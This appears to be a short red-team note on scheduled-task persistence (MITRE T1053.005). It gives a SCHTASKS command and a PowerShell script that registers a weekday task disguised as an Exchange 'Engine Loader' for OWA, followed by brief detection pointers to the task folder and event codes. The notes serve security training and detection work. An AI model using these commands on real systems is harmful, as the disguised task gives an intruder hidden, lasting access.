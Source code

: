 # [Job Scheduling](https://attack.mitre.org/techniques/T1053/005/)

## Exploit Syntax

* Method 1 | `sharpps` [ UNTESTED ]

```powershell 
sharpps SCHTASKS /CREATE /SC DAILY /TN "MyTasks\Notepad task" /TR "Path to the executable you want to run" /ST 11:00
```
* Method 2 | `pslo`

1. Create a txt file named `schdTask.ps1`

2. Paste in the powershell below.

```powershell
$outpath = "D:\Exchange Server\FIP-FS\Bin\ScanEngineLoader.exe"
$action = New-ScheduledTaskAction -Execute $outpath
$days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
$trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 9am
Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "Engine Loader" -Description "This task loads resouces for OWA."
```
3. Run 'pslo \<schdTask.ps1 file path>' 

## Detection Method

* Investigate file creations in the default windows task folder - C:\Windows\System32\Tasks folder.
    * Event.code: 1 
    * Event.action: process create 
    * Event.code: 4698 or 4699
 
## Resources